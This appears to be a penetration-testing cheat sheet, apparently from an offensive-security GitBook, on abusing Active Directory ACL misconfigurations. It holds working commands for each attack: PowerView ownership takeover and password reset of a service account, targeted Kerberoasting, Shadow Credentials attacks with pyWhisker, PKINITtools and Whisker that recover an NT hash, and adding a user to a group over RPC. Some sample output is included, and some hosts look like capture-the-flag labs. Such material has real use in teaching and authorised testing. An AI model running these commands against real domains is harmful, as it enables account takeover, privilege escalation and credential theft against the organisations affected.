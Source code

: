 # Abusing Active Directory ACLs/ACEs

## "WriteOwner" abuse

We have two account "Ryan" and "CA\_SVC".

<figure><img src="../../../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

As you can see, ryan has WriteOwner privilege on "sv\_svc" AD account.

### **Set Owner with All Rights** <a href="#dc7f" id="dc7f"></a>

```powershell
powershell -ep bypass

Import-Module .\PowerView.ps1

Set-DomainObjectOwner -Identity 'ca_svc' -OwnerIdentity 'ryan'

Add-DomainObjectAcl -Rights 'All' -TargetIdentity "ca_svc" -PrincipalIdentity "ryan"
```

Check with this command:

{% code title="" overflow="wrap" %}
```powershell
# check SID of ryan
Get-DomainUser | Where-Object { $_.Name -like "*ryan*" } | Select-Object Name, Objectsid
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

{% code title="" overflow="wrap" %}
```powershell
# check if ryan's SID there is in SecurityIdentifier field of ca_svc account
Get-DomainObjectAcl -Identity 'ca_svc' | Where-Object { $_.ActiveDirectoryRights -eq 'GenericAll' }
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

### Reset Password

```powershell
$NewPassword = ConvertTo-SecureString 'Password9999' -AsPlainText -Force

Set-DomainUserPassword -Identity 'ca_svc' -AccountPassword $NewPassword
```



### Reources

{% embed url="https://medium.com/@aslam.mahimkar/exploiting-ad-dacl-writeowner-misconfiguration-ca61fb2fcee1" %}

## "GenericWrite" over a user abuse.

The GenericWrite privilege access grants you the ability to write to any non-protected attribute on the target object, including "members" for a gourp, and "serviceprincipalnames" for a user.

This means that that it is possible to perform a `kerberstoasting attack` or `Shadow Credentials Attack` from the user with this priv to the writable user.

<figure><img src="../../../../.gitbook/assets/image (64).png" alt=""><figcaption></figcaption></figure>

### Kerberoast attack

A targeted kerberoast attack can be performed using [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast).

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/targetedKerberoast
```
{% endcode %}

{% code title="Usage" overflow="wrap" %}
```bash
./targetedKerberoast.py --dc-ip '192.168.1.7' -v -d 'ignite.local' -u 'radha' -p 'Password@1'
```
{% endcode %}

#### Clock skew too great error

The `KRB_AP_ERR_SKEW(Clock skew too great)` error indicates that we have to syncronize the clock of out session with the clock of the AD.

To do this we can use the `ntpdate`tool:

```bash
sudo apt install ntpsec-ntpdate
```

```bash
sudo ntpdate 10.10.11.42
```

{% hint style="danger" %}
If we are in kali linux we also disable the auto ntp-sync with this command:

`timedatectl set-ntp 0`
{% endhint %}

### Shadow Credentials Attack (From Kali)

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

{% code title="Installation" %}
```bash
git clone https://github.com/ShutdownRepo/pywhisker
```
{% endcode %}

{% code title="" overflow="wrap" %}
```bash
pywhisker.py -d "domain.local" -u "controlledAccount" -p "somepassword" --target "targetAccount" --action "add"
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (65).png" alt=""><figcaption></figcaption></figure>

Now we have obtained the password for pfx file and the pfx file, using the `gettgtpkinit.py` tool to extract TGT ticket.

{% code title="Installation" %}
```bash
git clone https://github.com/dirkjanm/PKINITtools
```
{% endcode %}

{% code overflow="wrap" %}
```bash
cd PKINITtools

python gettgtpkinit.py -cert-pfx file.pfx -pfx-pass password -cert-pem file_cert.pem -key-pem file_priv.pem -dc-ip 10.10.11.42 DOMAIN/USER USER.ccache

# output
2025-05-29 00:01:47,532 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-05-29 00:01:47,561 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-05-29 00:01:57,426 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-05-29 00:01:57,426 minikerberos INFO     f83293eb50d924cd718551e3b431c5b2a9a894bab853257d56bb255f84e13721 # <---------
INFO:minikerberos:f83293eb50d924cd718551e3b431c5b2a9a894bab853257d56bb255f84e13721
2025-05-29 00:01:57,428 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

```
{% endcode %}

Set the **KRB5CCNAME** environment variable to point to the previously generated **`.ccache`** file

```bash
export KRB5CCNAME=/PATH/TO/PKINITtools/USER.ccache
```

Use `getnthash.py` tool to extract the hash from TGT ticket

{% code overflow="wrap" %}
```bash
python getnthash.py -key KEY_IN_THE_ABOVE_OUTPUT DOMAIN/USER

# output
[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
33bd09dcd697600edf6b3a7af4875767
```
{% endcode %}



### Shadow Credentials Attack (From powershell)

copy this file on the target machine:

```bash
locate Whisker.exe

/opt/SharpCollection/NetFramework_4.7_Any/Whisker.exe
/opt/SharpCollection/NetFramework_4.7_x64/Whisker.exe
/opt/SharpCollection/NetFramework_4.7_x86/Whisker.exe
```

With a evil-winrm session we can use "upload" function

```
upload Whisker.exe
```

Execute the program

```
Whisker.exe list /target:TARGET_USER
```

```
Whisker.exe add /target:TARGET_USER
```

<figure><img src="../../../../.gitbook/assets/image (66).png" alt=""><figcaption></figcaption></figure>

Now upload the `Rubeus.exe` program and execute the command from Whisker output.



## "GenericWrite" over a group abuse.

GenericWrite to a group allows you to directly modify group membership of the group.

<figure><img src="../../../../.gitbook/assets/image (257).png" alt=""><figcaption></figcaption></figure>

### Add user to the other group

The command is based on the above example, and it add a user into a other group.

{% code overflow="wrap" %}
```bash
net rpc group addmem "DEVELOPERS" levi.james -U puppy.htb/levi.james%'Password@1' -S DC_IP
```
{% endcode %}

After running the command, run the following command to view the group members and check whether the previous command worked.

{% code overflow="wrap" %}
```bash
net rpc group members "DEVELOPERS" -U puppy.htb/levi.james%'Passwprd@1' -S DC_IP
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (260).png" alt=""><figcaption></figcaption></figure>



### Resources

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials" %}
